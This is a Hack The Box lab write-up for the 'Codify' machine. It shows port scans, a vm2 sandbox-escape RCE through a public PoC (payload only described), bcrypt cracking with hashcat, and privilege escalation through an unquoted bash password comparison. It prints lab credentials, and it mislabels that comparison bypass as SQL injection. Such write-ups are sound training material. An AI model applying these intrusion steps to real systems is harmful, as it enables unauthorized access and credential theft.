

# Codify

This is the write-up for the Codify machine from Hack The Box.

# Reconnaissance

First, we execute a full port scan on the machine.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.200]
├──[  ~/htb/machines/codify]
└─ $  sudo nmap -v -sS -Pn -p- --min-rate=300 --max-rate=500 10.10.11.239
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
```

Now, we execute a port scan only on the open ports found.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.200]
├──[  ~/htb/machines/codify]
└─ $  sudo nmap -vv -sC -sV -Pn -p 22,80,3000 -oA nmap/codify 10.10.11.239
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN+/g3FqMmVlkT3XCSMH/JtvGJDW3+PBxqJ+pURQey6GMjs7abbrEOCcVugczanWj1WNU5jsaYzlkCEZHlsHLvk=
|   256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIm6HJTYy2teiiP6uZoSCHhsWHN+z3SVL/21fy6cZWZi
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3000/tcp open  http    syn-ack ttl 63 Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found a domain and wrote it down in our hosts file.



Accessing the webpage, we got the following page.


# Enumeration

It’s a Node JS code editor as the page shows us. Clicking on the button “Try it now” we access the editor.


Clicking on the link “About us” we can see more information about the technology that is running.


Clicking on the vm2 link we are redirected to the GitHub page’s technology.


# Exploitation

Checking if there are any vulnerabilities for this technology, we got this on snyk site.

[Remote Code Execution (RCE) in vm2 | CVE-2023-37903 | Snyk](https://security.snyk.io/vuln/SNYK-JS-VM2-5772823)

Searching for a public exploit or a proof of concept, we found a GitHub link.

[https://github.com/7h3h4ckv157/CVE-2023-37903](https://github.com/7h3h4ckv157/CVE-2023-37903)

We copied the PoC, changed the payload to curl our Python server on port 8000, and executed the code on the editor.


On our Python web server.


Now, we changed the curl command for our bash reverse shell payload and opened the reverse port on our attack machine.


Executing the payload above and checking our listener, we got a reverse shell on the machine.


# Lateral Movement

Searching around the machine, we found a SQLite database file called `tickets.db` in `/var/www/contact` directory and downloaded it to our attack machine.


Checking this database file, we retrieve Joshua’s hash password.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.200]
├──[  ~/htb/machines/codify]
└─ $  sqlite3 tickets.db                                                                                                                                                             [ 5:34 ]
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> .tables
tickets  users  
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

| HASH FOUND |
| --- |
| joshua:$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2 |

We identified the hash as bcrypt and executed hashcat to crack it.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.200]
├──[  ~/htb/machines/codify]
└─ $  hashcat -m 3200 joshua.hash /usr/share/wordlists/rockyou.txt --force --username
Host memory required for this attack: 64 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLH.../p/Zw2
Time.Started.....: Wed Nov  8 17:41:43 2023, (3 mins, 9 secs)
Time.Estimated...: Wed Nov  8 17:44:52 2023, (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:        7 H/s (7.98ms) @ Accel:2 Loops:64 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 1348/14344385 (0.01%)
Rejected.........: 0/1348 (0.00%)
Restore.Point....: 1344/14344385 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4032-4096
Candidates.#1....: teacher -> marisa

Started: Wed Nov  8 17:40:58 2023
Stopped: Wed Nov  8 17:44:55 2023
```

We were able to crack the hash and get Joshua’s password in clear text.

| USERNAME | PASSWORD |
| --- | --- |
| joshua | spongebob1 |
| root | kljh12k3jhaskjh12kjh3 |

We log into the SSH service as joshua with this password.


# Privilege Escalation

Executing sudo -l we verify that we can execute the [mysql-backup.sh](http://mysql-backup.sh) script as root without root’s password.

```bash
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

Checking the script backup’s source code we got.

```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

In red we can see that the code doesn’t verify what is passed in variable `$USER_PASS` so we can execute the script using sudo and when it asks for the password, we can use SQL Injection to bypass the login and execute the script. At the same time, we are monitoring the process of the machine using the pspy64 tool.


Executing the pspy tool and the script with sudo and putting the * in the password, we were able to retrieve the root’s password.


Executing the su command and entering the root’s password retrieved we were able to escalate our privilege to root.

```bash
joshua@codify:~$ su
Password: 
root@codify:/home/joshua# cd /root
root@codify:~# id
uid=0(root) gid=0(root) groups=0(root)
```

